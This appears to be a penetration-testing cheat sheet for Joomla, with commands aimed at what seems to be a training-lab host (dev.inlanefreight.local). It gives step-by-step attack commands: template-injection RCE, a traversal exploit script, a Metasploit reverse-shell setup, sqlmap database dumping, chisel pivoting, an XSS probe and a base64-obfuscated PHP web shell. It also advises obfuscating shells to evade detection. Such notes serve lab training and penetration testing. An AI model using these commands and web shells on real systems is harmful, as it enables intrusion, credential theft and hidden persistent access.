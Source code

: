 
## 1. Joomla Admin Panel Code Execution (Template Customization)

```bash
curl -s http://dev.inlanefreight.local/templates/protostar/error.php?dcfdd5e021a869fcc6dfaef8bf31377e=id
```

- Log in to `/administrator` with admin credentials.
- Modify template files to inject PHP code for RCE.
- Use non-standard parameters and clean up web shells.

## 2. Joomla Core Directory Traversal (CVE-2019-10945)

```bash
python2.7 joomla_dir_trav.py --url "http://dev.inlanefreight.local/administrator/" --username admin --password admin --dir /
```

- Exploits directory traversal and file deletion.
- Useful if admin panel is inaccessible from outside.
- Can reveal sensitive files like `configuration.php`.

## 3. Joomla Configuration File Exploitation (Manual, if accessible)

```bash
curl -s http://dev.inlanefreight.local/configuration.php
```

- Check for exposed `configuration.php` file.
- Extract database credentials and sensitive information.

## 4. Joomla Extension Exploitation (Manual)

```bash
curl -s http://dev.inlanefreight.local/components/[vulnerable_component]/[exploit_path]?param=[malicious_payload]
```

- Enumerate extensions and research vulnerabilities.
- Craft exploits based on identified flaws.
- Extensions are a very common attack vector.

## 5. Metasploit Joomla Modules (if applicable)

```bash
msf6 > search joomla
msf6 > use exploit/unix/webapp/joomla_...
msf6 > set RHOSTS dev.inlanefreight.local
msf6 > set RPORT 80
msf6 > set TARGETURI /administrator/
msf6 > set USERNAME admin
msf6 > set PASSWORD admin
msf6 > set LHOST [your_ip]
msf6 > set LPORT 4444
msf6 > exploit
```

- Use Metasploit for automated exploitation.
- Streamlines the process for known vulnerabilities.

## 6. Database Exploitation (if SQL injection is achieved)

```bash
sqlmap -u "http://dev.inlanefreight.local/index.php?id=1" --dbs --batch
sqlmap -u "http://dev.inlanefreight.local/index.php?id=1" -D [database_name] --tables --batch
sqlmap -u "http://dev.inlanefreight.local/index.php?id=1" -D [database_name] -T [table_name] --columns --batch
sqlmap -u "http://dev.inlanefreight.local/index.php?id=1" -D [database_name] -T [table_name] -C [column1,column2] --dump --batch
```

- Use SQLMap or manual techniques to dump the database.
- Extract credentials and sensitive information.

## 7. Post-Exploitation (Privilege Escalation, Lateral Movement)

- **Linux:** `linpeas.sh`
- **Windows:** `winpeas.exe`
- **Pivoting:**

```bash
chisel server -p 1080 --reverse & chisel client [target_ip]:1080 R:socks
sshuttle -r user@target_ip 0.0.0.0/0
```

- Enumerate the compromised system.
- Use as a pivot point for lateral movement.

## 8. Joomla Rest API Attacks

```bash
curl -s http://dev.inlanefreight.local/api/index.php/v1/users
```

- Attack the Joomla REST API if enabled.
- Enumerate users, or modify content.

## 9. Advanced Web Shell Techniques

```bash
php -r '$s="c3lzdGVtKCRfR0VUWyJjbWQiXSk7";eval(base64_decode($s));' > shell.php
```

- Obfuscate web shells to evade detection.
- Implement authentication mechanisms.

## 10. Client-Side Attacks (XSS)

```bash
curl "http://dev.inlanefreight.local/index.php?param=<script>alert(1)</script>"
```

- Test for XSS vulnerabilities.
- Attack the users of the web site.

## 11. Joomla CLI (if accessible)

```bash
joomla user:list
```

- If you have shell access, you can use the Joomla CLI.

## Important Things:

- **Extension Vulnerabilities:** Prioritize extension enumeration and testing.
- **Configuration Exposure:** Check for and protect `configuration.php`.
- **Web Shell Security:** Use obfuscation and cleanup.
- **Reporting:** Document all findings and actions.
- **Stay Updated:** Keep up with Joomla security advisories.